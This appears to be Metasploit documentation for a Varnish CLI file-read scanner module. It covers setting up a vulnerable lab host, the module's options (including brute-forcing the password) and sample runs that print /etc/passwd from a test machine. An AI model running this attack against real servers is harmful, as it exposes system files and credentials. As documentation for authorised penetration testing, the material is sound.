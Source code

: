 ## Vulnerable Application

  Ubuntu 14.04 can `apt-get install varnish`.  At the time of writing that installed varnish-3.0.5 revision 1a89b1f.
  Kali installed varnish-5.0.0 revision 99d036f
  
  Varnish installed and ran the cli on localhost.  First lets kill the service: `sudo service varnish stop`.  Now, there are two configurations we want to test:

  1. No Authentication: `varnishd -T 0.0.0.0:6082`
  2. Authentication (based on shared secret file): `varnishd -T 0.0.0.0:6082 -S <file>`.
    1. I made an easy test one `echo "secret" > ~/secret`

## Verification Steps

  Example steps in this format:

  1. Install the application
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/varnish/varnish_cli_file_read```
  4. Do: ```set password <password>```
  5. Do: ```run```
  6. Get the first line of a file

## Options

  **PASSWORD**

  String to use as the password.  May be bruteforced via `modules/auxiliary/scanner/varnish/varnish_cli_login`

  **FILE**

  File to attempt to read the first line of

## Scenarios

  Running against Ubuntu 14.04 with varnish-3.0.5 revision 1a89b1f and NO AUTHENTICATION

  ```
    resource (varnish_read.rc)> use auxiliary/scanner/varnish/varnish_cli_file_read
    resource (varnish_read.rc)> set password secret
    password => secret
    resource (varnish_read.rc)> set rhosts 192.168.2.85
    rhosts => 192.168.2.85
    resource (varnish_read.rc)> set verbose true
    verbose => true
    resource (varnish_read.rc)> run
    [+] 192.168.2.85:6082     - 192.168.2.85:6082 - LOGIN SUCCESSFUL: No Authentication Required
    [+] 192.168.2.85:6082     - root:x:0:0:root:/root:/bin/bash
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

  Running against Ubuntu 14.04 with varnish-3.0.5 revision 1a89b1f

  ```
    msf auxiliary(varnish_cli_file_read) > run
    
    [+] 192.168.2.85:6082     - root:x:0:0:root:/root:/bin/bash
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```
